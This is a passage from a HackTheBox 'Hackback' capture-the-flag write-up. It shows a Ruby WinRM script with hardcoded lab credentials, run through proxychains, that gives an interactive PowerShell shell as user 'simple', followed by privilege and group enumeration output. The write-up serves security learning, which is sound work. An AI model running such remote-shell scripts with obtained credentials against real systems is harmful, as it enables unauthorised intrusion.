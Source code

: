 There's a few additional ports open like WinRM and RDP. I can't RDP in because I don't have the proper privileges:

![](/assets/images/htb-writeup-hackback/rdpfail_simple.png)

To connect to WinRM running on port 5985 I used the [Alamot's ruby script](https://github.com/Alamot/code-snippets/tree/master/winrm). I edited it to put the credentials and the right endpoint.

```ruby
#!/usr/bin/ruby

require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://127.0.0.1:5985/wsman',
  user: 'hackback\simple',
  password: 'ZonoProprioZomaro:-(',
  :no_ssl_peer_verification => true
                            )

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

I can connect successfully and now have a shell as user `simple`:

```
# proxychains ./winrm-simple.rb 
ProxyChains-3.1 (http://proxychains.sf.net)
PS hackback\simple@HACKBACK Documents>

PS hackback\simple@HACKBACK util> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

PS hackback\simple@HACKBACK util> net users simple
User name                    simple
Full Name                    simple
[...]

Local Group Memberships      *project-managers     *Remote Management Use
                             *Users                
```
